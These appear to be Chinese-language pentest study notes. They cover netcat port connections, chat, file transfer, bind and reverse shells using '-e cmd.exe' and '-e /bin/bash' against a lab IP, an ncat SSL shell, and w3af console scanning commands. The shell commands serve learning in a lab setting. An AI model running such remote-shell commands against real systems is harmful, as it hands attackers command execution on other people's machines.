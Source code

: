 ## netcat

### tcp端口连接

smtp:
nc -nv 192.168.30.35 25
help

pop3:
nc -nv 192.168.30.35 110
user xxx
pass xxx

imap:
nc -nv 192.168.30.35 143

### chat

nc -nvlp 4444                                                       A主机
nc -nv 192.168.30.35 4444                                           B主机

### 文件传输

nc -nvlp 4444 > incoming.exe                                        A主机
nc -nv 192.168.30.35 4444 </usr/share/windows-binaries/wget.exe     kali

### bind shell

nc -lvp 4444 -e cmd.exe                                             Win(有公网ip)
nc -nv 192.168.30.35 4444                                           Kali(无公网ip)

### reverse shell

nc -lvp 4444                                                        Win(有公网ip)
nc -nv 192.168.30.35 4444 -e /bin/bash                              Kali(无公网ip)

ncat:

ncat lvp 4444 -e cmd.exe --allow 192.168.30.5 --ssl                   Win
ncat -v 192.168.30.35 4444 --ssl                                      B主机


## web工具

### w3af

./w3af_console          命令行
help                    查看帮助
audit                   漏扫模块
crawl web_spider        爬行模块
target                  设置目标
view                    查看选项
http-settings           http选项
set user_agent          设置user_agent
start
